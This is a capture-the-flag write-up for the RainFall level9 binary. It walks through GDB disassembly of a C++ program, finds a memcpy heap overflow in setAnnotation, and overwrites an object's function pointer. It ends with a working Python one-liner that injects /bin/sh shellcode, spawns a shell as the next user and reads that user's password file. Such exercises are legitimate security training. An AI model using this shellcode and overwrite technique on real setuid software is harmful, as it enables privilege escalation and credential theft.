 ```sh
level9@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level9 level9   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level9 level9  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level9 level9 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 bonus0 users  6720 Mar  6  2016 level9
-rw-r--r--+ 1 level9 level9   65 Sep 23  2015 .pass
-rw-r--r--  1 level9 level9  675 Apr  3  2012 .profile
level9@RainFall:~$ ./level9
level9@RainFall:~$ ./level9 42
```
There is one excutable file **level9**, it does nothing. \
\
Run the binary file with GDB.
```sh
(gdb) info functions
0x080486f6  N::N(int)
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
```
Oh we can see some c++ style functions, N class, N::N(int) constructor etc...
```sh
(gdb) disas main
Dump of assembler code for function main:
   0x080485f4 <+0>:     push   %ebp
   0x080485f5 <+1>:     mov    %esp,%ebp
   0x080485f7 <+3>:     push   %ebx
   0x080485f8 <+4>:     and    $0xfffffff0,%esp
   0x080485fb <+7>:     sub    $0x20,%esp
   0x080485fe <+10>:    cmpl   $0x1,0x8(%ebp)
   0x08048602 <+14>:    jg     0x8048610 <main+28>
   0x08048604 <+16>:    movl   $0x1,(%esp)
   0x0804860b <+23>:    call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:    movl   $0x6c,(%esp)
   0x08048617 <+35>:    call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:    mov    %eax,%ebx
   0x0804861e <+42>:    movl   $0x5,0x4(%esp)
   0x08048626 <+50>:    mov    %ebx,(%esp)
   0x08048629 <+53>:    call   0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>:    mov    %ebx,0x1c(%esp)
   0x08048632 <+62>:    movl   $0x6c,(%esp)
   0x08048639 <+69>:    call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>:    mov    %eax,%ebx
   0x08048640 <+76>:    movl   $0x6,0x4(%esp)
   0x08048648 <+84>:    mov    %ebx,(%esp)
   0x0804864b <+87>:    call   0x80486f6 <_ZN1NC2Ei>
   0x08048650 <+92>:    mov    %ebx,0x18(%esp)
   0x08048654 <+96>:    mov    0x1c(%esp),%eax
   0x08048658 <+100>:   mov    %eax,0x14(%esp) # a
   0x0804865c <+104>:   mov    0x18(%esp),%eax
   0x08048660 <+108>:   mov    %eax,0x10(%esp) # b
   0x08048664 <+112>:   mov    0xc(%ebp),%eax
   0x08048667 <+115>:   add    $0x4,%eax
   0x0804866a <+118>:   mov    (%eax),%eax
   0x0804866c <+120>:   mov    %eax,0x4(%esp)  # ebp + 0xc argv[1]
   0x08048670 <+124>:   mov    0x14(%esp),%eax
   0x08048674 <+128>:   mov    %eax,(%esp) # this
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    0x10(%esp),%eax # 0x10 b    0x14 a
   0x08048680 <+140>:   mov    (%eax),%eax # address of start shell code
   0x08048682 <+142>:   mov    (%eax),%edx # shell code
   0x08048684 <+144>:   mov    0x14(%esp),%eax
   0x08048688 <+148>:   mov    %eax,0x4(%esp)
   0x0804868c <+152>:   mov    0x10(%esp),%eax
   0x08048690 <+156>:   mov    %eax,(%esp)
   0x08048693 <+159>:   call   *%edx
   0x08048695 <+161>:   mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:   leave  
   0x08048699 <+165>:   ret    
End of assembler dump.
```
This time we can find function call which is mangled like ```call   0x8048530 <_Znwj@plt>```, We can find original function like this.
```sh
(gdb) info functions
...
0x08048530  operator new(unsigned int)
...
(gdb) x/i 0x08048530
   0x8048530 <_Znwj@plt>:       jmp    *0x8049b70
```
We can define the function ```_Znwj``` was ```operator new()```. its produced by GNU gcc, for more information, [link](https://en.wikipedia.org/wiki/Name_mangling#:~:text=Complex%20example%5B,(Itanium)%20ABI%3A). \
\
We could find some function with vulnerability in ```setAnnotation()``` at line +37.
```sh
(gdb) disas 0x804870e
Dump of assembler code for function _ZN1N13setAnnotationEPc: # setAnnotation(this, av)
   0x0804870e <+0>:     push   %ebp
   0x0804870f <+1>:     mov    %esp,%ebp
   0x08048711 <+3>:     sub    $0x18,%esp
   0x08048714 <+6>:     mov    0xc(%ebp),%eax # 0xc = param 1
   0x08048717 <+9>:     mov    %eax,(%esp) #this = 자기자신 = esp,
   0x0804871a <+12>:    call   0x8048520 <strlen@plt>
   0x0804871f <+17>:    mov    0x8(%ebp),%edx # 0x8 = param 0
   0x08048722 <+20>:    add    $0x4,%edx
   0x08048725 <+23>:    mov    %eax,0x8(%esp)
   0x08048729 <+27>:    mov    0xc(%ebp),%eax
   0x0804872c <+30>:    mov    %eax,0x4(%esp)
   0x08048730 <+34>:    mov    %edx,(%esp)
   0x08048733 <+37>:    call   0x8048510 <memcpy@plt> # here
   0x08048738 <+42>:    leave  
   0x08048739 <+43>:    ret    
End of assembler dump.
```
They use ```memcpy()``` who has vulnerability of buffer overflow, its calling in main function with some parameter. it can represent like :
```cpp
void setAnnotation()
{
	memcpy();
}
```
```sh
(gdb) disas main
   ...
   0x08048664 <+112>:   mov    0xc(%ebp),%eax
   0x08048667 <+115>:   add    $0x4,%eax
   0x0804866a <+118>:   mov    (%eax),%eax
   0x0804866c <+120>:   mov    %eax,0x4(%esp)
   0x08048670 <+124>:   mov    0x14(%esp),%eax
   0x08048674 <+128>:   mov    %eax,(%esp)
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   ...
```
So basically, the main function has argc, argv and envp, and they are usual parameters passed to the function. \
According to this we can access these values as normal parameters. check the [stack frame role here](https://en.wikibooks.org/wiki/X86_Disassembly/Functions_and_Stack_Frames). \
\
We can concentrate on the line +112, it takes ```0xc``` of ebp, this means it takes ```argv[1]```, and save itself with dereferenced value. \
On the line +124 and +128, it gets ```0x14``` of esp which is one of the instance ```N```, and points itself. \
It will be like:
```c++
N *n = new N();
n->setAnnotation(av[1]);
```
So we can verify where is buffer overflow with argument,
```sh
(gdb) r aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2ad3ad4ad5ad6ad7ad8ad9ae0ae1ae2ae3ae4ae5ae6ae7ae8ae9
Starting program: /home/user/level9/level9 aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2ad3ad4ad5ad6ad7ad8ad9ae0ae1ae2ae3ae4ae5ae6ae7ae8ae9

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) i r
eax            0x61366461       1630954593
ecx            0x3965   14693
edx            0x804a0a2        134520994
ebx            0x804a078        134520952
esp            0xbffff670       0xbffff670
ebp            0xbffff698       0xbffff698
```
it corruptes EAX, because
```sh
(gdb) disas main
   ...
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    0x10(%esp),%eax
   0x08048680 <+140>:   mov    (%eax),%eax
=> 0x08048682 <+142>:   mov    (%eax),%edx
   0x08048684 <+144>:   mov    0x14(%esp),%eax
   ...
```
After calling the function at +131, we can see copying the value of 0x10 of esp in eax. remember this information.
```sh
level9@RainFall:~$ ltrace ./level9 BBBB
__libc_start_main(0x80485f4, 2, 0xbffff7e4, 0x8048770, 0x80487e0 <unfinished ...>
_ZNSt8ios_base4InitC1Ev(0x8049bb4, 0xb7d79dc6, 0xb7eebff4, 0xb7d79e55, 0xb7f4a330) 	= 0xb7fce990
__cxa_atexit(0x8048500, 0x8049bb4, 0x8049b78, 0xb7d79e55, 0xb7f4a330) 				= 0
_Znwj(108, 0xbffff7e4, 0xbffff7f0, 0xb7d79e55, 0xb7fed280)  						= 0x804a008
_Znwj(108, 5, 0xbffff7f0, 0xb7d79e55, 0xb7fed280) 									= 0x804a078 #\x0c\xa0\04\x08
strlen("BBBB") 																		= 4
memcpy(0x804a00c, "BBBB", 4) 														= 0x804a00c
_ZNSt8ios_base4InitD1Ev(0x8049bb4, 11, 0x804a078, 0x8048738, 0x804a00c) 			= 0xb7fce4a0
```
We can see ```memcpy()``` copies in address 0x804a00c,
```sh
(gdb) b *main+128
Breakpoint 1 at 0x8048674
(gdb) r AAAA
Starting program: /home/user/level9/level9 AAAA

Breakpoint 1, 0x08048674 in main ()
(gdb) x $esp+0x10
0xbffff710:     0x0804a078
```
We check ESP address before enter the function ```memcpy()```, we can check its not far away from address of ```memcpy()```. \
Because of this, EAX was corrupted, at line main+136. \
\
The address of variable ```a``` is ```0x804a008``` and ```b``` is ```0x804a078``` \
difference between them is 112 (0x70). \
Knowing this we just have to simply buffer overflow the ```a```'s ```char annotation[100];``` variable by passing long string to ```av[1]```.
```sh
(gdb) disas 0x80486f6
Dump of assembler code for function _ZN1NC2Ei:
   0x080486f6 <+0>:     push   %ebp
   0x080486f7 <+1>:     mov    %esp,%ebp
   0x080486f9 <+3>:     mov    0x8(%ebp),%eax
   0x080486fc <+6>:     movl   $0x8048848,(%eax)
   0x08048702 <+12>:    mov    0x8(%ebp),%eax
   0x08048705 <+15>:    mov    0xc(%ebp),%edx
   0x08048708 <+18>:    mov    %edx,0x68(%eax) # memory space for int nb, char annotation[100]
   0x0804870b <+21>:    pop    %ebp
   0x0804870c <+22>:    ret
End of assembler dump.
```
```c++
a->setAnnotation(av[1]);
```
Since ```b```'s address (```0x804a078```) is now corrupted and changed to our desired address (```\x0c\xa0\04\x08```), \
the code will try to dereference twice:
```c++
return (b->*(b->func))(*a);
```
The flow of dereference is ... \
```\x0c\xa0\04\x08(start addr)``` -> ```\x10\xa0\x04\x08(start addr + 4)``` -> ```\x31\xc0\x50\x68...(shell code)```. \
\
So it will end with our exploitation shell code ```/bin/sh```.
```sh
level9@RainFall:~$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
(hidden)
```
level 9 passed !